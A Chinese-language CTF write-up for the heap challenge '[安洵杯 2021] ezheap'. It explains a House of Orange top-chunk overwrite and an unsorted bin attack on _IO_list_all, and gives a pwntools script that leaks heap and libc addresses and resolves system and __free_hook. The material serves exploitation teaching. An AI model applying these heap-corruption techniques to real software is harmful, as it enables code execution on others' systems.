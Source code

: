    ![](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408011804963.png)

   成功写入main_arena地址：

   ![image-20240801180642525](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408011806673.png)



## 例题：[安洵杯 2021\]ezheap

题目地址：[[安洵杯 2021\]ezheap | NSSCTF](https://www.nssctf.cn/problem/914)

### 思路：

在申请chunk时，在**unsorted bin中查找的过程**：先遍历一遍unsorted bin，查看是否有相应大小的chunk，并将对应bin放入small bin和large bin。如果没有适合大小的chunk，再从small bin或者large bin中切割，切割剩余的放入unsorted bin。

1. 利用HOR ，使用堆溢出修改top chunk的size，再申请一个较大的chunk，使原top chunk进入unsorted bin，从而泄漏libc地址。
2. 利用堆溢出修改unsorted bin的bk指针，实现unsorted bin attack，来覆盖掉IO_list_all指针，指向main_arena_88，并同时修改unsorted bin的size大小为0x60，使其能进入smallbin0x60，进而让main_arena_88 + 0x68（_chain）能衔接到unsorted bin来伪造FILE。

### 分析：

1. gift后门函数给了一个堆地址：

   ![image-20240811172352827](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408111723877.png)

2. 只有add、edit、show函数，没有free函数，且只能一次控制一个堆块。其中，edit函数能造成堆溢出：

   ![image-20240811172506901](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408111725975.png)



### 利用：

1. 泄漏堆地址，修改size大小，泄漏libc地址：

   ```python
   
   # 回收heap地址
   heap_addr = eval(p.recv(14).decode())-0x10
   success("heap_addr ==> " + hex(heap_addr))
   
   # 泄漏libc地址
   add(0x10,b"lzl")
   payload = p64(0)*3 + p64(0xfc1)
   edit(payload)
   add(0x1000,b"lzl")
   
   add(0x10,b"a"*8)
   show()
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = (addr-(main_arena_offset+0x58)-0x610)
   success("libc_addr==>"+hex(libc_base))
   
   IO_list_all_addr = libc_base + libc.symbols["_IO_list_all"]
   success("IO_list_all_addr ==>"+hex(IO_list_all_addr))
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   ```

